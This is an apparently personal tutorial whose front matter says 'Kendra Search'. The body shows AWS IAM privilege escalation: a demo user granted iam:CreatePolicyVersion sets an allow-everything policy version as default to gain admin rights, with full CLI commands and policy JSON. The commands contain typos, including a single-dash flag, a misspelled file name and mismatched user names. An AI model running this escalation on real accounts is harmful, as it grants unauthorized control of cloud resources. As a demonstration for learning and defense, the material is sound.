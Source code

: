 ```yaml
---
title: Kendra Search
description: build a search with amplify rest api and kendra search
author: haimtran
publishedDate: 13/09/2022
date: 2022-09-13
---
```


## Introduction

bad users create permission more than granted by exploiting IAM such as the create-policy-version and set-as-default.

- aws iam priveledge escaltion
- expoliting create-policy-version [HERE](https://bishopfox.com/blog/privilege-escalation-in-aws)

<LinkedImage
  href="https://youtu.be/K84hInX226Q"
  height={400}
  alt="Priveledge Escalation"
  src="/thumbnail/priveldge-escalation.png"
/>

## Create an Iam User

create an iam user (no aws console access)

```bash
aws iam create-user --user-name demo1
```

create an access key, take note the credentials returned

```bash
aws iam create-access-key --user-name cli-iam-demo
```

then configure aws profile

```bash
aws configure
```

## Create User Console Access

this is optinal

```bash
aws iam create-login-profile --generate-cli-skeleton > test.json
```

fill username and password into the temlate test.json and

```bash
aws iam create-login-profile --cli-input file://test.jon
```

## Apply a Policy to The User

allow the use to create new versions of policies

```json
{
  "Version": "2012-10-17",
  "Statement": [
    {
      "Sid": "PrivEsc1",
      "Effect": "Allow",
      "Action": "iam:CreatePolicyVersion",
      "Resource": "arn:aws:iam::*:policy/*"
    }
  ]
}
```

create a policy and take note the policy arn

```bash
aws iam create-policy \
  --policy-name AlloCreatePolicyVersion \
  --policy-document file://policy.json
```

attach

```bash
aws iam attach-user-policy \
  --user cli-iam-demo \
  --policy-arn $POLICY_ARN
```

## Priveldge Escalation

admin policy bad user ident

```json
{
  "Version": "2012-10-17",
  "Statement": [
    {
      "Sid": "AllowEverything",
      "Effect": "Allow",
      "Action": "*",
      "Resource": "*"
    }
  ]
}
```

now the user upgrate their permission to admin

```bash
aws iam create-policy-version \
-policy-arn $POLICY_ARN \
--policy-document file://admin_policy.json \
--set-as-default
```

## Helper

this will create a template for the input parameters so you know what to provide

```bash
aws iam create-policy --generate-cli-json
```
